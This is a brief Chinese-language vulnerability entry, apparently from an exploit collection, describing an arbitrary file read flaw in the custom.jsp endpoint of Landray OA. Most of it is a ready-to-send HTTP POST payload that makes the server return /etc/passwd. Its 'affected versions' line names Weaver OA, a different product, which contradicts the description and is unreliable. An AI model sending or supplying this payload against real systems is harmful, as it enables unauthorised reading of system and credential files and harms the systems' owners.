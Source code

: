 **漏洞描述：**

蓝凌OA custom.jsp接口存在任意文件读取漏洞。

**影响版本：**

泛微OA

**Payload：**

```
POST /sys/ui/extend/varkind/custom.jsp HTTP/1.1
Host:host
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Length: 42
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

var={"body":{"file":"file:///etc/passwd"}}
```

---

---
